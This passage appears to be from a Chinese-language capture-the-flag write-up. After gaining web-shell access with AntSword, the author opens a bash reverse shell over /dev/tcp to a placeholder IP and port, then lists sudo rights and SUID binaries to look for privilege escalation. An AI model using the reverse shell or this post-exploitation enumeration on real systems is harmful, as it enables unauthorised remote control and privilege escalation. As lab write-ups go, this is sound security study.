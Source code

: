 ![24-3.png](24-3.png)

连上蚁剑, 发现在 `/flag` 中, 不过权限不够读不出来, 也就是要提权, 那么先发个反弹 shell 出来:

```bash
bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
```

接收到反弹 shell 后, 枚举一下特权指令:

```bash
sudo -l
find / -perm -u=s -type f 2>/dev/null
```
